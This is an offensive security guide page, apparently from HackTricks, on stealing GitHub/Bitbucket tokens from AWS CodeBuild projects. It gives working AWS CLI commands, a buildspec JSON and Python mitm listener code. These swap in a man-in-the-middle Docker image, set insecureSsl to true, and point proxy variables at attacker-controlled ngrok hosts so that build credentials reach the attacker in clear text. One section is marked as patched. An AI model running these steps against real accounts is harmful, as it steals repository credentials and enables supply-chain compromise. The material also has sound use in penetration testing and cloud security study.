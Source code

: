 # AWS Codebuild - Token Leakage

{{#include ../../../../banners/hacktricks-training.md}}

## Recover Github/Bitbucket Configured Tokens

First, check if there are any source credentials configured that you could leak:

```bash
aws codebuild list-source-credentials
```

### Via Docker Image

If you find that authentication to for example Github is set in the account, you can **exfiltrate** that **access** (**GH token or OAuth token**) by making Codebuild to **use an specific docker image** to run the build of the project.

For this purpose you could **create a new Codebuild project** or change the **environment** of an existing one to set the **Docker image**.

The Docker image you could use is [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm). This is a very basic Docker image that will set the **env variables `https_proxy`**, **`http_proxy`** and **`SSL_CERT_FILE`**. This will allow you to intercept most of the traffic of the host indicated in **`https_proxy`** and **`http_proxy`** and trusting the SSL CERT indicated in **`SSL_CERT_FILE`**.

1. **Create & Upload your own Docker MitM image**
   - Follow the instructions of the repo to set your proxy IP address and set your SSL cert and **build the docker image**.
     - **DO NOT SET `http_proxy`** to not intercept requests to the metadata endpoint.
   - You could use **`ngrok`** like `ngrok tcp 4444` lo set the proxy to your host
   - Once you have the Docker image built, **upload it to a public repo** (Dockerhub, ECR...)
2. **Set the environment**
   - Create a **new Codebuild project** or **modify** the environment of an existing one.
   - Set the project to use the **previously generated Docker image**

<figure><img src="../../../../images/image (23).png" alt=""><figcaption></figcaption></figure>

3. **Set the MitM proxy in your host**

- As indicated in the **Github repo** you could use something like:

```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```

> [!TIP]
> The **mitmproxy version used was 9.0.1**, it was reported that with version 10 this might not work.

4. **Run the build & capture the credentials**

- You can see the token in the **Authorization** header:

  <figure><img src="../../../../images/image (273).png" alt=""><figcaption></figcaption></figure>

This could also be done from the aws cli with something like

```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
    "name": "my-demo-project",
    "source": {
        "type": "GITHUB",
        "location": "https://github.com/uname/repo",
        "buildspec": "buildspec.yml"
    },
    "artifacts": {
        "type": "NO_ARTIFACTS"
    },
    "environment": {
        "type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
        "image": "docker.io/carlospolop/docker-mitm:v12",
        "computeType": "BUILD_GENERAL1_SMALL",
        "imagePullCredentialsType": "CODEBUILD"
    }
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```

### Via insecureSSL

**Codebuild** projects have a setting called **`insecureSsl`** that is hidden in the web you can only change it from the API.\
Enabling this, allows to Codebuild to connect to the repository **without checking the certificate** offered by the platform.

- First you need to enumerate the current configuration with something like:

```bash
aws codebuild batch-get-projects --name <proj-name>
```

- Then, with the gathered info you can update the project setting **`insecureSsl`** to **`True`**. The following is an example of my updating a project, notice the **`insecureSsl=True`** at the end (this is the only thing you need to change from the gathered configuration).
  - Moreover, add also the env variables **http_proxy** and **https_proxy** pointing to your tcp ngrok like:

```bash
aws codebuild update-project --name <proj-name> \
    --source '{
        "type": "GITHUB",
        "location": "https://github.com/carlospolop/404checker",
        "gitCloneDepth": 1,
        "gitSubmodulesConfig": {
            "fetchSubmodules": false
        },
        "buildspec": "version: 0.2\n\nphases:\n  build:\n    commands:\n       - echo \"sad\"\n",
        "auth": {
            "type": "CODECONNECTIONS",
            "resource": "arn:aws:codeconnections:eu-west-1:947247140022:connection/46cf78ac-7f60-4d7d-bf86-5011cfd3f4be"
        },
        "reportBuildStatus": false,
        "insecureSsl": true
    }' \
    --environment '{
        "type": "LINUX_CONTAINER",
        "image": "aws/codebuild/standard:5.0",
        "computeType": "BUILD_GENERAL1_SMALL",
        "environmentVariables": [
            {
                "name": "http_proxy",
                "value": "http://2.tcp.eu.ngrok.io:15027"
            },
            {
                "name": "https_proxy",
                "value": "http://2.tcp.eu.ngrok.io:15027"
            }
        ]
    }'
```

- Then, run the basic example from [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) in the port pointed by the proxy variables (http_proxy and https_proxy)

```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
    host="127.0.0.1",
    port=4444,
    protocols=[protocol.HTTP],
    middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
    certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```

- Finally, click on **Build the project**, the **credentials** will be **sent in clear text** (base64) to the mitm port:

<figure><img src="../../../../images/image (1) (1).png" alt=""><figcaption></figcaption></figure>

### ~~Via HTTP protocol~~

> [!TIP] > **This vulnerability was corrected by AWS at some point the week of the 20th of Feb of 2023 (I think on Friday). So an attacker can't abuse it anymore :)**

An attacker with **elevated permissions in over a CodeBuild could leak the Github/Bitbucket token** configured or if permissions was configured via OAuth, the **temporary OAuth token used to access the code**.

- An attacker could add the environment variables **http_proxy** and **https_proxy** to the CodeBuild project pointing to his machine (for example `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../images/image (232).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../images/image (213).png" alt=""><figcaption></figcaption></figure>

- Then, change the URL of the github repo to use HTTP instead of HTTPS, for example: `http://github.com/carlospolop-forks/TestActions`
- Then, run the basic example from [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) in the port pointed by the proxy variables (http_proxy and https_proxy)

```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
    host="0.0.0.0",
    port=4444,
    protocols=[protocol.HTTP],
    middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
    certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```

- Next, click on **Build the project** or start the build from command line:

```sh
aws codebuild start-build --project-name <proj-name>
```

- Finally, the **credentials** will be **sent in clear text** (base64) to the mitm port:

<figure><img src="../../../../images/image (159).png" alt=""><figcaption></figcaption></figure>

> [!WARNING]
> Now an attacker will be able to use the token from his machine, list all the privileges it has and (ab)use easier than using the CodeBuild service directly.

{{#include ../../../../banners/hacktricks-training.md}}






